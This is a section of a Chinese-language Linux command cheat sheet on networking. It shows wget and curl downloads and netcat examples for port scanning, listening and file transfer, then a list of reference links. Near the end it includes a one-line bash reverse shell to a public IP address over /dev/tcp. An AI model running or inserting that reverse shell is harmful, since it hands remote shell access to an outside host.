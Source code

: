 ## 网络请求

```sh
# Redirecting Output
$ wget -O filename.zip http://www.domain.com/filename-4.0.1.zip
# 递归下载整个站点
$ wget --recursive http://url.com
# Downloading in the background
$ wget -b http://domain.com/filename.tar.gz
# Limiting the download speed
$ wget --limit-rate=200k http://www.domain.com/filename.tar.gz

# 展示 curl 的进度
$ curl --progress-bar -T "${SOME_LARGE_FILE}" "${UPLOAD_URL}" | tee /dev/null
```

nc 也是常见的网络监听与请求工具：

```sh
# 端口扫描
$ nc -v -w 2 192.168.2.34 -z 21-24

# 监听
$ nc -l 1234
$ nc 192.168.2.34 1234

# 文件拷贝，从 192.168.2.33 拷贝文件到 192.168.2.34
$ nc -l 1234 > test.txt # 192.168.2.34
$ nc 192.168.2.34 < test.txt # 192.168.2.33

# 发送端
$ cat a.txt  |  nc -l  3333
# 接收端
$ nc 192.168.0.3    3333 >   a.txt

# 将内网的 Shell 反弹到某个公网的端口
$ bash -i >& /dev/tcp/180.100.74.29/8182 0>&1
```

# Links

- [ ] [the-art-of-command-line](https://parg.co/bXZ)
- [ ] [Linux Commands Cheat Sheet](https://parg.co/Uqu)
- [ ] https://gist.github.com/alkavan/746547
- [ ] https://github.com/macrozheng/mall/blob/master/document/reference/linux.md
- [ ] https://github.com/ibraheemdev/modern-unix

    